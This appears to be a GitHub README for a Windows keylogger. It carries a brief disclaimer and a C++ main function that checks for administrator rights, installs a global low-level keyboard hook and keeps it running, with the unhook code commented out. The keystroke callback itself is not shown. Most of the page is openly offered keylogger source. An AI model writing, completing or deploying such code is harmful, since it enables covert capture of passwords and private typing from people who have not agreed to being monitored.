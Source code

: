 # key-logger
Simple key-logger method, only for windows user. many more things to finish if you want to make it perfect. Don't use it in illegal way. I'm not taking any responsibility for this btw. Don't come at me.

## Usage:
```cpp
int main(int argc, char* argv[])
{
	HANDLE _token;
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &_token))
	{
		unsigned long _size;
		GetTokenInformation(_token, TokenElevation, NULL, 0, &_size);
		TOKEN_ELEVATION* _elevation = (TOKEN_ELEVATION*)malloc(_size);
		if (GetTokenInformation(_token, TokenElevation, _elevation, _size, &_size)) {
			if (!_elevation->TokenIsElevated) {
				MessageBox(NULL, L"Not running with administrator privileges.", L"UwU", MB_OK | MB_ICONWARNING);
			}
		}
		free(_elevation);
		CloseHandle(_token);
	}
    HINSTANCE hInstance = GetModuleHandle(NULL);
    if (!hInstance) {
        std::cerr << "Failed to get module handle. Error: " << GetLastError() << std::endl;
        return 1;
    }
    g_keyboardHook = SetWindowsHookEx(WH_KEYBOARD_LL, keyevent, hInstance, 0);

    if (g_keyboardHook == NULL) {
        std::cerr << "Error: " << GetLastError() << std::endl;
        return 1;
    }
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0) > 0) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

	//// uninstall kbhook after used
 //   if (g_keyboardHook != NULL) {
 //       UnhookWindowsHookEx(g_keyboardHook);
 //   }

    while (true);

	return 0;
}
```
